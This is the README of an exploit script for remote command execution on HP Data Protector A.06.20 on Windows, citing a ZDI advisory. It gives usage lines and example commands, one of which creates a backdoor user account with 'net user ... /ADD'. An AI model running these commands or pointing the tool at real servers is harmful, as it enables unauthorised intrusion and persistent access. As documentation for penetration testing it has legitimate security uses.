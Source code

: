 # HP Data Protector Arbitrary Remote Command Execution
This script allows to execute a command with an arbitrary number of arguments. The trick is done by calling the **perl.exe** interpreter installed with HP Data Protector inside the directory ```{install_path}/bin/```

The existing exploits allows to execute a single command without parameters and this behaviour is unexceptable in most of the pentesting scenarious. The main feature of the script is to bypass that limitation allowing to execute a command with all the needed parameters.

# Target OS
* Microsoft Windows

# Tested Version
* HP Data Protector A.06.20

# Usage
```hp_data_protector_rce.py <target> <port> <command>```

# Example
```hp_data_protector_rce.py 192.168.1.1 5555 'dir c:\'```

```hp_data_protector_rce.py 192.168.1.1 5555 'ipconfig /all'```

```hp_data_protector_rce.py 192.168.1.1 5555 'net user userbackdoor pwdbackdoor /ADD'```

# Reference:
http://www.zerodayinitiative.com/advisories/ZDI-11-055/
